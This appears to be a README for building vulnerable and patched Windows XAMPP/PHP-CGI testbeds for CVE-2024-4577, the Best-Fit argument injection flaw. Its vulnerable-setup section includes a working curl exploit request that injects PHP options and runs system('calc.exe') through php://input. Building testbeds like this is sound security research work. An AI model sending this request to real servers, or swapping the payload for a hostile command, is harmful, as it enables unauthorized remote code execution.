







# PHP RCE Via CGI Argument Injection (CVE-2024-4577)

This file describes how to setup a windows php environment that is
vulnerable (and not vulnerable) to CVE-2024-4577.

## Vulnerability Details
When using Apache and PHP-CGI on Windows, if the system is set up to use certain code pages, Windows may use "Best-Fit" behavior to replace characters in command line given to Win32 API functions. PHP CGI module may misinterpret those characters as PHP options, which may allow a malicious user to pass options to the PHP binary being run, allowing to achieve RCE.

This vulnerability affects the following versions of PHP installed on the Windows operating system:

**Affected PHP Versions**
* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

**Affected Windows Versions**
* Windows 10
* Windows 11

## Testbed Setup
The setup has been tested on the following Windows versions in a virtualized environment:

* Windows 10 `10.0.19045 N/D build 19045`
* Windows 11 `10.0.22631 N/A Build 22631`

The setup works in three steps:

1. The system locale of the operating system is changed to Japanese. 

2. A specific version of XAMPP is downloaded (8.1.25 / PHP 8.1.25)

3. The apache configuration is changed to enable or disable PHP-CGI.

To have a vulnerable configuration, the PHP-CGI feature must be enabled.

To have a non-vulnerable configuration, the PHP-CGI feature must be disabled.

### 1. Change system locale

The following powershell code can be used to change the system locale to Japanese

```
Set-WinSystemLocale -SystemLocale "ja-JP"
```

After the system locale has been changed, a restart is needed to apply the changes

```
Restart-Computer
```

To check that the Japanese locale has been correctly set, execute the
following powershell command, and make sure to obtain the value `932`.

```
powershell.exe [Console]::OutputEncoding.WindowsCodePage
```

If the `Set-WinSystemLocale` did not work, you can change the system
locale by going in the following menu.

```
Win + R
type "control" and press enter

> Clock and Region
> Region
> Administrative
> Change System Locale
> Japanese (Japan)
```

The required steps are shown in the following screenshot.



### 2. Download XAMPP

The next step then is to download version `8.1.25` of the XAMPP
project from the following URL:
- https://www.apachefriends.org/download.html

The following screenshot shows the version to download.



Notice the SHA1 fingerprint of the installer, which should be
`51535424fe7a89ed27e566ac4d357e9d7930cef4` and can be computed with
the following command.

```
Get-FileHash -Path .\xampp-windows-x64-8.1.25-0-VS16-installer.exe -Algorithm SHA1
```

During the XAMPP installation process, it is necessary to install only
the `apache` and `php` components.



After the installation has finished, start the XAMPP controller by
executing the `xampp-control.exe` program within the main
installation folder.



At this point, it is possible to choose whether to create a vulnerable testbed or a not vulnerable tested.

### 3.1 Vulnerable Testbed Setup
To create a vulnerable testbed, modify the default configuration of Apache. 

Specifically, modify the `httpd-xampp.conf` as shown in the following screenshot.



and uncomment the PHP-CGI section.



Then press start, and the server will listen on the port 8080. 

The following request will exploit the vulnerability and trigger the RCE, spawning a `calc.exe` on the windows target. Change `<IP>` with the IP address of the server.

```
curl -X POST "http://<IP>/?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('calc.exe');?>"
```

### 3.2 Non-Vulnerable Testbed Setup
To create a non-vulnerable testbed, leave the default configuration as it is, and simply start the server. If the configuration has been previously modified, make sure to comment the PHP-CGI section in order to disable it.



## References
* https://nvd.nist.gov/vuln/detail/cve-2024-4577
* https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/
* https://github.com/watchtowrlabs/CVE-2024-4577
